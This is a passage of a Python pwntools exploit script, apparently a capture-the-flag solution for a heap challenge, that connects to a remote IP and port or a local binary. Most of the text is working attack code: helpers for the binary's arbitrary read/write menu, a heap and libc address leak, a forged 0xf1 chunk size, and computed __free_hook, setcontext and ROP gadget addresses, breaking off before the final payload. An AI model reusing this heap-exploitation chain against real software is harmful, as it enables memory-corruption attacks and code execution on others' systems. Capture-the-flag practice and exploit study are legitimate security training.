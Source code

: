```python  
 HOST = "20.216.39.14"  
 PORT = 1235  
 s = remote(HOST, PORT)  
 libc = ELF("./libc.so.6")  
else:  
 s = process(BINARY)  
 #s = process(BINARY, env={'LD_PRELOAD': './libc-2.23.so'})  
 libc = elf.libc  
  
def Read(where):  
 s.sendlineafter(">> ", "1")  
 s.sendlineafter(">> ", hex(where))

def Write(where, data):  
 s.sendlineafter(">> ", "2")  
 s.sendlineafter(">> ", hex(where))  
 s.sendlineafter(">> ", hex(data))  
  
def Alloc(size, data):  
 s.sendlineafter(">> ", "3")  
 s.sendlineafter(">> ", str(size))  
 s.sendafter(">> ", data)  
  
def Free():  
 s.sendlineafter(">> ", "4")

def View():  
 s.sendlineafter(">> ", "5")

Alloc(0x10, "\n")  
View()  
heap_leak = u64(s.recv(6)+b"\x00\x00")  
heap_base = heap_leak - 0x220a  
print("heap_leak =", hex(heap_leak))  
print("heap_base =", hex(heap_base))

Alloc(1100, "A"*4)  
Free()  
Write(heap_base+0x20a0, heap_base+0x1ef0)

# Make 0xf0 size chunk for free()  
Alloc(0x60, "\n")  
Alloc(0x60, "\n")  
Alloc(0x60, "\n")  
Alloc(0x68, p64(0)*11+p64(0xf1))

# libc leak  
Alloc(0xe0, "\n")  
Alloc(0xe0, "A"*15+"\n")  
View()  
s.recvuntil("A"*15+"\n")  
libc_leak = u64(s.recv(6)+b"\x00\x00")  
libc_base = libc_leak - 0x1ecc40  
free_hook = libc_base + libc.sym.__free_hook

print("libc_leak =", hex(libc_leak))  
print("libc_base =", hex(libc_base))

setcontext   = libc_base + libc.sym.setcontext  
mov_rdx_rdi  = libc_base + 0x1518b0 # mov rdx, qword ptr [rdi + 8]; mov qword
ptr [rsp], rax; call qword ptr [rdx + 0x20];  
ret_addr     = libc_base + 0x22679  # ret;  
syscall_ret  = libc_base + 0x630d9  # syscall; ret;  
```